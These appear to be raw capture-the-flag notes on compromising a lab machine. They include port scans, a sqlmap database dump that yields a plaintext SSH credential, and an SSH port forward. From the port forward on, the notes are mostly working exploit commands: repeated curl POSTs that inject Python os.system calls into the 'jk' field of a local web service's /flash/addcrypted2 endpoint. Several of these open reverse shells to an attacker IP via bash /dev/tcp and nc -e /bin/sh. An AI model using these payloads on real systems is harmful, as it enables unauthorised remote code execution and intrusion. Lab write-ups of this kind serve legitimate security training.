


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce



└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214




we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=%0Apyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B%0Af=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A


curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'


pyimport os;os.system("./tmp/script.sh");f=function f2(){};

pyimport os;os.system("nc 10.10.16.24 1234");
pyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3B

# trying netcat as /dev/tcp doesnot exists

nc -e /bin/sh 10.10.16.24 1234
pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");
pyimport%20os%3Bos.system(%22nc%20-e%20%2Fbin%2Fsh%2010.10.16.24%201234%22)%3B%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jkpyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3Bf=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'